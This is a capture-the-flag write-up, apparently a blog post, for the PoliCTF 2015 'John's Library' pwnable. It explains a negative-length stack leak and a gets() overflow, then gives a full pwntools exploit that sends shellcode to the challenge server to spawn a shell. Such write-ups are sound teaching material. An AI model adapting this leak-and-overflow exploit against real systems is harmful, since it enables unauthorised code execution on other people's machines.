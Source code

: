 ```yaml
---
layout: post
title:  "PoliCTF John's Library"
date:   2015-08-05 18:03:59
categories: CTF Pwnable
---
```


Do you like reading books? here we have the best collection ever! you can even save some books for future reading!! enjoy noob!

## Recon

We are presented with the following menu upon connection:

```
Welcome to the jungle library mate! Try to escape!!

r - read from library
a - add element
u - exit
```

There is two bits of functionality that we have access to

### Add book to library

```
 r - read from library
 a - add element
 u - exit
a
Hey mate! Insert how long is the book title:
8
deadbeef
```

With adding a book, we input two values:

* Length of the text
* The text itself

The interesting bit is that the length of each book is stored in a global array located at `0x804a060`. The text is stored in a buffer located on the stack. This address is passed to both the read and add functions as an argument.

### Reading from the library

```
 r - read from library
 a - add element
 u - exit
r
Insert the index of the book you want to read: 0
deadbeef
```

This function takes the index of a book and reads the information stored at that index. This calculation is done by reading the corresponding stored length from `0x804a060 + index`
and adding that length to the beginning of the buffer passed to the function (which is also on the stack).

### Vulnerabilities

There are two bugs in the code.

* The data stored in the buffer is read via a `gets()` call, causing a traditional stack overflow. This is exploited upon exiting the program.
* The length of the book isn't checked for being negative. This allows us to arbitrarily read valvues on the stack. It just so happens that the start of the buffer is pushed on the stack as a parameter to both read and add functions. An example stack is below (addresses are not accurate)

```
+-------------------+
| Pointer to buffer | 0x400000
+-------------------+
| .....             |
+-------------------+
| Buf               | 0x40001b
|                   |
|                   |
+-------------------+
```

### Exploit

The stack is randomized on the remote server. We can't hard code the stack address, as we won't know what it is at execution. We have to leak this address.

By supplying a `-0x1b` length for the first book and then reading that book's index, we can actually read the beginning of the buffer, giving us a static address to jump to for our shellcode.


Exploit will work as follows:

* Create a book with `-28` length (data for the book is irrevelent)
* Read that book via index 0 and retrieve the 4 bytes of the stack
* Add a second book, but this time overflow via `gets()` with our shellcode at the beginning of the buffer and returning to our leaked stack address.
* Exit the program via `u`
* ???
* Profit

### Exploit code

```python
from pwn import *

"""
Both functions are given a pointer to a stack address (named BUFF)
Add function (overflow):
Drops the given length into a global buffer starting at 0x804a060
There is no negative check, so feeding a negative value passes the check
Vulnerable gets() function drops input into BUFF

Read (mem leak):
Takes the previously given length from add and adds that offset in BUFF
Because we can use negative values, we can looks backwards on the stack
to discover the beginning address of BUFF

Exit (trigger):
The overflow from the add isn't exploited until exiting the program
"""


# r = process('./johns-library')
r = remote('library.polictf.it', 80)

# Debugging help with gdb
'''
gdb.attach(r, """
bp 0x8048640
bp 0x8048742
c
""")
'''

log.info("Setting up leak of buffer")
r.sendline('a')
r.sendline(str(-28)) # Set len to subtract to find original buffer location
r.sendline()

log.info("Leaking buffer")
r.sendline('r')
r.sendline('1')
r.recv()
r.recv()
r.recvuntil('read: ')

ret = r.recv()[:4]

log.info('Got buffer: {}'.format(ret[::-1].encode('hex')))

log.info("Preparing shellcode")
shellcode = '\x90' * 900 + asm(shellcraft.sh())

payload = shellcode
payload += cyclic(cyclic_find('aaks') - len(shellcode))
payload += ret
payload += 'a' * (1000 - len(payload))

log.info("Sending shellcode")
r.sendline('a')
r.sendline(payload)

log.info("Exiting problem, causing the exploit")
r.sendline('u')

log.success("And your shell...")
r.interactive()
```
